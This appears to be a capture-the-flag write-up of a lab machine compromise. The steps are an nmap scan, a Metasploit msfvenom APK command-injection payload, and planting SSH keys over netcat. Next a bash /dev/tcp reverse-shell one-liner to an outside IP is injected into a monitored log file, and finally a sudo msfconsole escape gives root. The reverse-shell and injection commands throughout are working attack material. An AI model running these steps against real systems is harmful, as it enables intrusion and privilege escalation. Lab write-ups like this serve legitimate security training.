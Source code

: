 First we ran an nmap scan on the system:
```
nmap -sV -sC -T4 10.10.10.226
```
we found an open port 5000 and then browsed to the endpoint and found a website that allowed us to upload files.
using search sploit found out that msfconsole could be used to generate a payload that could exploit the machine

commands
```
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost <attacker ip>
set lport 4444
exploit
```
the exploit did not work with the python reverse shell so we switched to a netcat reverse  shell and it generated an apk file.
We then uploaded the file to the website and opened up a netcat listener ```nc -nlvp 4444```

We successfully gained user access to the machine and then cd'd into the .ssh folder and downloaded an authorized_keys file generated with ```ssh-keygen -f rsa``` and sent it with netcat ```nc -w 3 <victim ip> 1234 < authorized_keys``` recieved it with ```nc -nlvp 1234 > authorized_keys```.

after sshing in I gained access to the pwn folder and found a script called "scanlosers.sh" that called to a file called "~/logs/hacker".

we created a one liner reverse shell to connect to user pwn successfully.

```
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1' #" >> hackers
```
Using ```sudo -l``` we found that the user had root permissions to use the binary /opt/metasploit-framework-6.0.9/msfconsole.

going to GTFO bins I found an exploit that allowed me to get root privledges with the commands"
```
sudo msfconsole
`msf6` > irv
```
We now have root access to the machine action is no longer required.
